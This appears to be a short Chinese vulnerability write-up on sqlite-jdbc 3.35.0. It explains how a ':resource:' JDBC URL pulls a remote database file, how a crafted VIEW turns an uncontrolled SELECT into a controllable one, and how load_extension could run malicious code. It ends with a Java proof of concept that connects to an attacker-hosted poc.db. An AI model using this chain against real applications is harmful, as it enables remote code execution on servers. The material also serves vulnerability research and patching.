



## 原理

在sqlite与数据库进行连接的时候，会调用`org.sqlite.SQLiteConnection#open`方法（版本不同，类也不同）



如果连接的url，是以`:resource:`开头的，之后就会调用`extractResource`方法，并且会将其分隔开来，之后使用URL封装，跟进



之后会读取远程的数据

参考“SELECT code_execution FROM * USING SQLite;”，我们可以利用“CREATE VIEW”将不可控的SELECT语句转换为可控。

如果我们可以控制 SELECT 语句，我们可以使用 SELECT load_extension('/tmp/test.so') 来加载 dll/so 并执行恶意代码，但在现实世界中，目标系统上存在可控文件并不容易，并且load_extension 默认设置为关闭。

除了常见的漏洞之外，我们还可以使用 SQLite 中的内存损坏（例如“Magellan”）来导致 JVM 崩溃。

## 依赖

```xml
<dependency>
    <groupId>org.xerial</groupId>
    <artifactId>sqlite-jdbc</artifactId>
    <version>3.35.0</version>
</dependency>
```

## POC

### 创建database控制Select语句



### 利用

```java
Class.forName("org.sqlite.JDBC");
Connection connection = DriverManager.getConnection("jdbc:sqlite::resource:http://127.0.0.1:8888/poc.db");
```

